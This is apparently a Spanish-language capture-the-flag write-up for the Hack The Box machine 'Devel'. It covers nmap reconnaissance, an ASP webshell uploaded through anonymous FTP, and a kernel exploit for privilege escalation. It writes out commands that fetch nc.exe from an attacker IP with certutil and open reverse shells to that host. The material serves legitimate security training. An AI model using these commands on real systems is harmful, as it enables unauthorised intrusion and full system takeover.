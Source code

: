 # Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Devel](https://www.hackthebox.com/home/machines/profile/3) |
| OS | Windows |
| Dificultad oficial | Easy |
| Dificultad de comunidad | ![Dificultad](images/difficulty.png) |
| Puntos | 20 |
| Creadores | [ch4p](https://www.hackthebox.com/home/users/profile/1) |

# Reconocimiento

## Escaneo de host

### Escaneo completo de puertos

```bash
└─$ nmap -T5 -vvv -open -p- -n -Pn -oG nmap/all_ports $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-16 10:23 EDT
Initiating Connect Scan at 10:23
Scanning 10.10.10.5 [65535 ports]
Discovered open port 21/tcp on 10.10.10.5
Discovered open port 80/tcp on 10.10.10.5
Connect Scan Timing: About 26.80% done; ETC: 10:25 (0:01:25 remaining)
Completed Connect Scan at 10:25, 112.65s elapsed (65535 total ports)
Nmap scan report for 10.10.10.5
Host is up, received user-set (0.064s latency).
Scanned at 2022-06-16 10:23:39 EDT for 113s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 112.68 seconds
```

### Escaneo específico

```bash
└─$ nmap -sCV -p 80,21 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-16 10:29 EDT
Nmap scan report for 10.10.10.5
Host is up (0.064s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.36 seconds
```

# Enumeración

## Servicios

### ftp - 21

Si bien se buscó analizar el servicio http, no se encontró nada relevante que pudiera sobresalir para la fase de explotación, salvo la recopilación de información ya presente en el escaneo de nmap el cuál presenta la versión del servidor IIS presente.

Al identificar mediante el escaneo específico de nmap el logueo por medio de la cuenta anónima que ofrecen los servidores ftp, se buscó ingresar para visualizar qué archivos se encontraban presentes y si además de permitir el listado de estos, se permitía la escritura en el directorio.

Al visualizar los archivos disponibles se identificó que correspondían con los archivos relacionados al servidor web en cuestión, por lo que al cargar un archivo de prueba se buscó visualizarlo mediante el navegador, corroborando así un camino de explotación mediante la ejecución de código.

![Carga de archivo de prueba](images/enum_1.png)

Visualización en navegador

![Visualización en navegador](images/enum_2.png)

# Explotación

## RCE

De acuerdo a la tecnología empleada se buscó cargar una webshell de `asp` para ejecutar comandos en la máquina, la cual se puede ubicar en `/usr/share/webshells/asp`.

![Carga de archivos](images/exploit_1.png)

Por lo que después de la carga del binario de netcat mediante `certutil.exe -f -urlcache http://10.10.14.16/nc.exe c:\windows\temp\nc.exe`, se obtuvo una reverse shell como `iis apppool\web` entablandola con `c:\windows\temp\nc.exe -e cmd.exe 10.10.14.16 1234`.

![Carga de nc.exe](images/exploit_2.png)

Reverse shell entablada:

![Reverse shell](images/exploit_3.png)

# Post Explotación

## Enumeración

Al identificar mediante `systeminfo` que se trataba de una versión vieja de Windows 7, sumando que en la misma información mostrada por el comando no se visualizaba ningún parche instalado, se asumió que la ruta de escalación iba intencionada a realizarse por medio de explotación de kernel.

![Información de sistema](images/post_1.png)

## Escalación de privilegios

### nt apppool\web &rarr; nt authority\system

Después de ocupar el [repositorio de exploits de kernel de windows](https://github.com/SecWiki/windows-kernel-exploits) para buscar alguno que fuera a la par de la fecha y acorde a la versión del sistema operativo, se encontró que el exploit relacionado a `MS10-59` era operativo pero debido a que el presente en el repositorio es presentado mediante una prueba de concepto la cual retorna una shell lanzando otro proceso/ventana y no en la presente a donde se ejecuta.

Se optó por buscar alguna otra prueba de concepto que permitiera otro enfoque, encontrando así otro [repositorio del mismo exploit](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled) el cuál mediante la especificación de la IP de escucha y puerto permite entablar una reverse shell como `nt authority\system`, obteniendola mediante `.\churri.exe 10.10.14.16 4321`.

![Acceso como nt authority\system](images/post_2.png)

# Referencias

- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits).
- [egre55 - MS10-059](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled).
